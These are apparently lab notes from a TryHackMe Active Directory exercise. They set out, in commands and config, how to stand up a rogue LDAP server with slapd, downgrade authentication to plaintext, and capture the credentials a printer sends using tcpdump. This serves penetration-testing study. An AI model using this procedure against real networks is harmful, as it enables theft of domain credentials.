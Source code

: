 ## Force Printer Server On AD to return AD credentials

- Configure LDAP Rogue Server
```
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
sudo dpkg-reconfigure -p low slapd
```
- Choose No to omit slapd config
- Change DNS domain name to target domain name
- Change Org Name also to targe domain name
- No to purge database
- yes to Move old database

- Create New file to auth with plain text (downgrading)
- nano olcSaslSecProps.ldif and add
```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```
- modify ldap server
```
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```
- Check Config ( No message in kali )
```
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```
-Output will be
```
         
[thm@thm]$ ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
dn:
supportedSASLMechanisms: PLAIN
supportedSASLMechanisms: LOGIN
```

- Capture and read with TCPdump
```
sudo tcpdump -SX -i breachad tcp port 389
```
